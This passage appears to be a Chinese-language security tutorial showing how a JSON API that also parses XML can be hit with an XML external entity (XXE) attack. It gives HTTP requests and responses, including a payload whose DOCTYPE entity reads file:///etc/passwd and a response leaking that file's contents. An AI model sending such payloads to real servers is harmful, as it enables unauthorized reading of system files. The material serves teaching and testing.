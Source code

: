 现在我们尝试将 Content-Type 修改为 application/xml

#### **进一步请求和响应：**

**HTTP Request:**

```
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 38

{"search":"name","value":"netspitest"}
```

**HTTP Response:**

```
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 127

{"errors":{"errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."}}
```

可以发现服务器端是能处理 xml 数据的，于是我们就可以利用这个来进行攻击

#### **最终的请求和响应：**

**HTTP Request:**

```
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 288

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>
```

**HTTP Response:**

```
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 2467

{"error": "no results for name root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync....
```
